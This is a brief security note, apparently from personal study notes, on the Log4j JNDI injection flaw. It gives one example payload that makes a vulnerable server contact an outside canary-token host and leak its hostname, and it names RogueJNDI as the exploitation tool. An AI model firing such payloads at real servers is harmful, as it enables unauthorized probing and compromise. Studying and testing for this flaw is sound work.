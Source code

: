 It exists in the logging application for java, called **Log4j**.

Example payload: `${jndi:ldap://x${hostName}.L4J.9aerhv42wdxh4nqztpw0z1i28.canarytokens.com/a}`

site that helps testing: [Canary Token](https://canarytokens.org/)

It works because the input is not sanitized. You can pass in a request and the server makes the request.

The best way to exploit it is using [[RogueJNDI]]
